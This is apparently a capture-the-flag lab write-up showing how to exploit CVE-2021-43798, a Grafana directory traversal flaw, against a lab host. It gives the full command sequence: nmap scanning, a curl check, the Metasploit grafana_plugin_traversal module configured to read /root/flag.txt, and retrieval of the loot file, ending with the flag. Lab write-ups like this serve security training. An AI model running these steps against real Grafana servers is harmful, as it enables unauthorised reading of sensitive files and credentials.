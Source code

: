 # Vulnerability Exploitation Report: CVE-2021-43798

## Vulnerability Overview
**CVE ID**: CVE-2021-43798  
**CVSS Score**: 7.5 (High)  
**Description**: A directory traversal vulnerability in Grafana allows unauthenticated attackers to access arbitrary files on the server by exploiting a flaw in the plugin endpoint. This vulnerability can be used to read sensitive files outside the intended directory structure.

## Objective
Exploit the CVE-2021-43798 directory traversal vulnerability on a target Grafana instance to read the `/root/flag.txt` file as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.5
- **Target Port**: 3000 (Grafana default port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.5) to confirm the presence of Grafana.

```
nmap -sV 192.168.5.5
```

### Step 3: Verify Grafana Accessibility
Confirm the Grafana instance is accessible by sending an HTTP request to port 3000.

```
curl -L 192.168.5.5:3000
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 5: Search for Grafana Exploit
Search Metasploit for modules related to Grafana vulnerabilities.

```
search grafana
```

### Step 6: Select Grafana Plugin Traversal Module
Choose the Metasploit module for the Grafana directory traversal vulnerability.

```
use auxiliary/scanner/http/grafana_plugin_traversal
```

### Step 7: Configure the Target Host
Set the target host to the Grafana instance’s IP address.

```
set RHOSTS 192.168.5.5
```

### Step 8: Specify File to Read
Set the file path to the target file `/root/flag.txt`.

```
set FILEPATH /root/flag.txt
```

### Step 9: Execute the Exploit
Run the exploit to read the specified file via the directory traversal vulnerability.

```
exploit
```

### Step 10: Exit Metasploit
Exit the Metasploit console after the exploit completes.

```
exit
```

### Step 11: Retrieve the Loot
Access the file retrieved by Metasploit from the local loot directory.

```
cat /root/.msf4/loot/{fname}.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: VzuUll4HuCd7KOFw